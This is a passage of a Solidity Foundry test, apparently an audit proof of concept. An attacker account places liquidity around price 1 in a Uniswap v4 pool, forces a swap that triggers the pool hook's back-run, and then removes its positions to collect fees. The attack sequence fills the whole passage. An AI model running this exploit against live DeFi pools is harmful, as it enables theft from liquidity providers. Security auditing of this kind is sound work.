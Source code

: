 ```solidity
            liquidityDelta: L_below,
            salt: ""
        })
    );

    // above 1: [0, +2]
    payable(address(uniswapV4Router)).transfer(1 ether);
    uniswapV4RouterHelper.addLiquidity(
        attacker,
        poolKey,
        IPoolManager.ModifyLiquidityParams({
            tickLower: 0,
            tickUpper: 2,
            liquidityDelta: L_above,
            salt: ""
        })
    );
    vm.stopPrank();

    // 2) Ensure starting price is a hair > 1 so we cross down through 1 on the push.
    //    Do a tiny oneForZero (debt -> base) to nudge price up.
    uniswapV4RouterHelper.oneForZeroSwap(
        attacker,
        poolKey,
        IPoolManager.SwapParams({
            zeroForOne: false,                        // debt -> base
            amountSpecified: int256(0.001 ether),     // exact-in (tiny)
            sqrtPriceLimitX96: TickMath.getSqrtPriceAtTick(3)
        })
    );
    {
        (uint160 sqrtP0,,,) = poolManager.getSlot0(poolKey.toId());
        assertGt(sqrtP0, ONE_SQRT_PRICE_X96, "price should start slightly > 1");
    }

    vm.startPrank(attacker);
    // 3) The attacker does the push: base -> debt (zeroForOne), exact-out debt,
    //    with a limit just below 1 so we do cross into price<=1 and trigger the hook’s back-run.
    int256 debtOut = 2 ether;
    for(uint256 i = 0 ; i < 1 ; i++) {
        payable(address(uniswapV4Router)).transfer(uint256(debtOut));
        uniswapV4RouterHelper.zeroForOneSwap(
            attacker,
            poolKey,
            IPoolManager.SwapParams({
                zeroForOne: true,                              // base -> debt
                amountSpecified: -debtOut,                     // exact-out debt
                sqrtPriceLimitX96: TickMath.getSqrtPriceAtTick(-3)
            })
        );
    }
    // hook's back-run (debt -> base, exact-out base) runs inside afterSwap

    // Price should be restored to >= 1 by the hook’s back-run
    {
        (uint160 sqrtP1,,,) = poolManager.getSlot0(poolKey.toId());
        assertGe(sqrtP1, ONE_SQRT_PRICE_X96, "post back-run price must be >= 1");
    }

    // 4) Pull the fees: remove BOTH attacker positions to collect base + debt fees.
    uniswapV4RouterHelper.removeLiquidity(
        attacker,
        poolKey,
```